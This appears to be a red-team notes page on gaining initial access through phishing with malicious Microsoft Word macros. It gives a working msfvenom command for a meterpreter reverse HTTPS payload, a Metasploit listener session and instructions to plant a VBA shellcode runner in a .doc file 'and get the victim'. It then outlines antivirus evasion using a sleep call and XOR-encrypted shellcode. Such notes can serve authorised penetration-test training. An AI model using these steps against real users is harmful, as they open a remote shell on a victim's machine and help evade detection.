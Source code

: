 # Initial Access via Phishing

This is for Microsoft Office Word. We assume we are using meterpreter to catch the shell and we will be generating payloads according to the Windows Office version present on the victim. Generally x86 for Office 2016 and x64 for Office 2021/365

We start with the simplest payload which is to create a direct VBA shellcode runner with no obfuscation and then escalate accordingly with obfuscation, powershell and C# usage.

[Round 1: The Simple Direct VBA Shellcode Runner]()



# Round 1: The Simple Direct VBA Shellcode Runner
**Traits**
- As simple as it gets. All VBA with help from Win32APIs
- Unlikely to evade AV
- Dies the moment the victim closes Word. So you need to migrate to another process quick or you have some pretexting magic to keep the victim on the Word document


The malicious payload generated as such:

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.231 LPORT=443 EXITFUNC=thread -f vbapplication
```

Open Listener
```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set EXITFUNC thread
EXITFUNC => thread

```

Slot the below into a macro in a .doc file, and get the victim. the buf variable is where your msfvenom payloads goes to

![Simple VBA Shellcode Runner here](SimpleDirectVBARunner.vba)

# Round 2: The Obfuscated Direct VBA Shellcode Runner

- With Sleep Function to dodge Heuristics detection
- With single byte XOR encryption of shellcode

